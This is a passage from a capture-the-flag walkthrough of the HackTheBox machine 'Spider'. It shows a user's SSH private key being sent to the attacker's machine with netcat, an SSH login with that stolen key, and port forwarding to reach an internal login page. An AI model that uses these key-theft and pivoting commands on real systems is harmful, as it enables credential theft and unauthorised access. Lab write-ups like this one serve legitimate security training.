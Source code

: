 ```bash
-rw------- 1 chiv chiv 1679 Apr 24  2020 id_rsa
```
Looks like we have id_rsa over here for us so let's just get that and SSH into chiv.
```bash
chiv@spider:~/.ssh$ nc 10.10.14.7 12345 < id_rsa
```
On your terminal
```bash
kali@kali:~/HackTheBox/Spider$ rlwrap nc -nlvp 12345 > id_rsa
listening on [any] 12345 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.243] 36206
```
Now we got id_rsa on our machine let's login as chiv.
```bash
kali@kali:~/HackTheBox/Spider$ chmod 700 id_rsa
kali@kali:~/HackTheBox/Spider$ ssh -i id_rsa chiv@spider.htb
```
# PrivESC to Root
## ss -tupln
```bash
ss -tupln
Netid  State    Recv-Q   Send-Q      Local Address:Port     Peer Address:Port   
udp    UNCONN   0        0           127.0.0.53%lo:53            0.0.0.0:*      
tcp    LISTEN   0        80              127.0.0.1:3306          0.0.0.0:*      
tcp    LISTEN   0        128               0.0.0.0:80            0.0.0.0:*      
tcp    LISTEN   0        100             127.0.0.1:8080          0.0.0.0:*      
tcp    LISTEN   0        128         127.0.0.53%lo:53            0.0.0.0:*      
tcp    LISTEN   0        128               0.0.0.0:22            0.0.0.0:*      
tcp    LISTEN   0        128                  [::]:
```
We can see there a local server on port 8080 so let's portfwd it.
```bash
kali@kali:~/HackTheBox/Spider$ ssh -i id_rsa -L 8080:127.0.0.1:8080 chiv@spider.htb
```
I was having some trouble with port forwading with SSH so I used sshtunnel one of the python modules to create a tunnel.
```bash
kali@kali:~/HackTheBox/Spider$ python3 -m sshtunnel -K id_rsa -L :1234 -R 127.0.0.1:8080 -p 22 -U chiv 10.10.10.243


            Press <Ctrl-C> or <Enter> to stop!
```
Now let's visit the website.
We can see that it has a login page which doesn't require password to authenticate so let's try the only username that we know chiv.
And we are logged in.
I tried to give it a false but nevertheless it logged in so that is intresting.
```bash
POST /login HTTP/1.1
Host: 127.0.0.1:1234
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://127.0.0.1:1234
Connection: close
Referer: http://127.0.0.1:1234/login
```